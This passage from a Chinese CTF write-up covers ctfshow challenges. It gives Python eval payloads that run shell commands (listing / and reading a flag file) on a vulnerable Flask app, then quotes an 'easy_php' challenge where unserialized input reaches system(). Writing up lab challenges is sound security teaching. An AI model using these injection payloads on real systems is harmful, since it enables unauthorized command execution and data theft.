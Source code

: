 ```python
   return redirect(url_for('login'))


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)

```

这里存在代码漏洞，我们直接读根目录：

```python
eval=__import__("os").popen("ls /").read()
```

![image-20230404003724365](https://raw.githubusercontent.com/leekosss/photoBed/master/202304040037458.png)

然后查看flag：

```python
eval=__import__("os").popen("cat /flag_is_h3re").read()
```





#### easy_php

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        system($this->ctfshow);
    }
}

$data = $_GET['1+1>2'];

if(!preg_match("/^[Oa]:[\d]+/i", $data)){
    unserialize($data);
}

```

分析一下代码，首先，我们需要知道，怎么进行get传参：`$_GET['1+1>2']`

我们做一个小实验：

```php+HTML
<?php
echo print_r($_GET);
```
